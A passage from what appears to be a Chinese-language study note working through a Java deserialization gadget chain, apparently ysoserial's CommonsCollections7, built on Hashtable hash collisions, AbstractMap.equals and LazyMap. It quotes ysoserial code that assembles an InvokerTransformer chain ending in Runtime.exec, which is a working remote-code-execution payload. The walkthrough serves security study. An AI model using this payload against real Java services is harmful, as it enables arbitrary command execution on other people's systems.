 然后是确保AbstractMap的equals能调用LazyMap的get：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231217122549.png)

如图，只要令传入的参数o为outerMap即可。

所以，AbstractMapDecorator需要令map值为AbstractMap![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231217123101.png)

但是这个类既没有实现Serializable接口，构造函数也不是public，甚至map还是transient修饰的。

关键的reconstitutionPut那里又是一坨看着很难调用的东西，不知道怎么下手。看一下ysoserial是怎么写的：

```java
        // Reusing transformer chain and LazyMap gadgets from previous payloads
        final String[] execArgs = new String[]{command};

        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                execArgs),
            new ConstantTransformer(1)};

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");
```
